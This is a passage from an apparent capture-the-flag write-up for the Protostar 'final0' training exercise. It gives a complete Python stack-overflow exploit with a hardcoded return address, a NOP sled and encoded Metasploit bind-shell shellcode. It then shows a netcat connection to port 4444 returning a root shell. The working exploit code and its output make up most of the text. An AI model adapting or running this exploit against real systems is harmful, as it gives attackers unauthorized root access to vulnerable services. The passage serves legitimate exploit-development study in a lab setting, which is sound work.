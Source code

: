 It looks safe to use 0xbffffcd0, the start of the nop sled. 

The final script ends up looking like:

```
#!/usr/bin/python

from socket import *
from struct import *

s = socket(AF_INET, SOCK_STREAM)
s.connect(("localhost", 2995))

offset = 532
ret = "\xd0\xfc\xff\xbf" #0xbffffcd0
junk = "a"*offset
nop = "\x90" * 12

#msfpayload linux/x86/shell_bind_tcp R | msfencode -b '\x00\xff\x0d\x0a' -e x86/shikata_ga_nai -t c
shellcode = "\xdb\xce\xd9\x74\x24\xf4\xbb\xa3\xc2\x12\x69\x58\x2b\xc9\xb1" \
"\x14\x31\x58\x19\x03\x58\x19\x83\xe8\xfc\x41\x37\x23\xb2\x72" \
"\x5b\x17\x07\x2f\xf6\x9a\x0e\x2e\xb6\xfd\xdd\x30\xec\x5f\x8c" \
"\x58\xec\x62\x21\xc4\x78\x73\x10\xa4\xf5\x92\xf8\x22\x5e\x98" \
"\x7d\x23\x1f\x26\xcd\x37\x10\x40\xfc\xb7\x13\x3d\x98\x7a\x13" \
"\xae\x3c\xee\x2b\x89\x73\x6e\x1a\x50\x74\x06\xb2\x8d\xf7\xbe" \
"\xa4\xfe\x95\x57\x5b\x88\xb9\xf7\xf0\x03\xdc\x47\xfd\xde\x9f"

s.send(junk + ret + nop + shellcode)
```

I then ran it.

```
root@protostar:/home/user# ./final0_after.py
```

And lastly, just like in the other example, I connected to the bind shell.  Since I didn't configure a port number in the msfpayload, the default port number is 4444.

```
root@protostar:/home/user# nc localhost 4444
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
```

There's root access.  Challenge complete. 

Conclusion
----------

It turns out there is always more than one way to skin a cat.  I'm learning the same applies to exploit development.  One could try to make this portable by doing relative jumps with offsets, and ret2libc.  I did not do this, as it wasn't specifically part of the exercise. However, I may come back to it later for fun.
